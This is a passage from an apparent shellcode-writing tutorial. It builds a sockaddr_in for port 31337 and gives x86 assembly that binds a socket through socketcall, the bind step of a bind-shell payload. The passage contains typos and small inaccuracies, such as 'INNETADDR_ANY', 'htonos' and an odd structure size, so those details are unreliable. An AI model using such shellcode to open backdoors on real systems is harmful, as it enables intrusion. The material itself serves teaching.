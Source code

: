 ``` {.c}
struct sockaddr_in {
    short            sin_family;   // e.g. AF_INET, AF_INET6
    unsigned short   sin_port;     // e.g. htons(3490)
    struct in_addr   sin_addr;     // see struct in_addr, below
    char             sin_zero[8];  // zero this if you want to
};
```

We see that we have two shorts, followed by the address. But, the
address we care about is `INNETADDR_ANY` which is 0. The rest is just
padding.

So another way to think about this is that the `struct sockaddr_in` is
the same as an array of four shorts:

``` {.c}
short host_addr[] = {0x0002,0x697a,0x00000,0x0000};
```

Note that 0x697a is 31337 in big-endian(!) and we always need to be
careful about that with networking.

We can write code to produce the `host_addr` like so:

``` {.asm}

    xor eax,eax
    push eax        ;0,0
    push WORD 0x697a    ;htonos(31337)
    push WORD 0x02      ;2
    mov ecx,esp

```

This assembly is also introducing a new form of push that will only push
a word onto the stack. This misaligns the stack, but it is a useful
tool.

Now we can setup the rest of the code like so:

``` {.asm}
    xor eax,eax
    push eax        ;0,0
    push WORD 0x697a    ;htonos(31337)
    push WORD 0x02      ;2
    mov ecx,esp



    push 0x16       ;sizeof(host_addr)
    push ecx        ;host_addr
    push esi        ;assume esi stores socketfd

    xor ebx,ebx
    mov bl,0x2      ;SYS_BIND

    mov ecx,esp     ;socket_args

    mov al,0x66     ;SYS_SOCKETCALL
    int 0x80
```
